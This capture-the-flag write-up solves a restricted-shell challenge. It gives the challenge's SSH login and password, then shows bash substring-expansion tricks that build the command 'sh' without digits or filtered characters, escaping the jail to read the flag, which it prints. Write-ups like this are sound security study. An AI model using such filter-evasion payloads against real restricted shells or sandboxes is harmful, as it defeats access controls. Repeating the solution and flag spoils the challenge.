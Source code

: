 # Description
History, Stephen said, is a nightmare from which I am trying to awake <br>

Link : ssh special@52.50.127.68 ; password: fd98201b8539e491a86f961c723951fe

# Solution
After connecting to the remote host , we are given custom  shell meterpreter with some hardcore filtering : <br>
* Only uppercase letters are accepted
* Numbers are filtered
* most special chars are filtered
* ? % ( ) . " ' ` = , &  ~ @ ] [ ! * / \ are all filtered 

after some test normally and considering the description that insists on the history , we check the output of $_ <br>
which normally output the argument of last command <br>

```
> $_
declare -x A="T"
declare -x AB="HI"
declare -x ABC="ISN"
declare -x ABCD="OTTH"
declare -x ABCDE="EFLAG"
declare -x ABCDEF="BUTMAY"
declare -x ABCDEFG="BEITCAN"
declare -x ABCDEFGH="HELPGETT"
declare -x ABCDEFGHI="INGFLAG:D"
declare -x OLDPWD
declare -x PWD="/home/special"
declare -x SHELL=""
declare -x SHLVL="1"
declare -x _="export"
> $PATH
bash: /usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.: No such file or directory

```
so we can read the string "THIS IS NOT THE FLAG BUT MAYBE IT CAN HELP GETTING FLAG :D" so it's already a hint <br>
the idea is to use shell expansion or bash substitution ${VAR:START:END} to substring the content of the variable VAR from START to END <br>
but we can't use numbers oO ! <br>
but we can generate length of string  with ${#VAR}

## \o/ Problem solved 

${PATH:${#AB}:${#A}}${PWD:${#A}:${#A}} <== executes sh <br>
then cat flag.txt
Flag{B4sh_subst1tut1on_is_gud!}

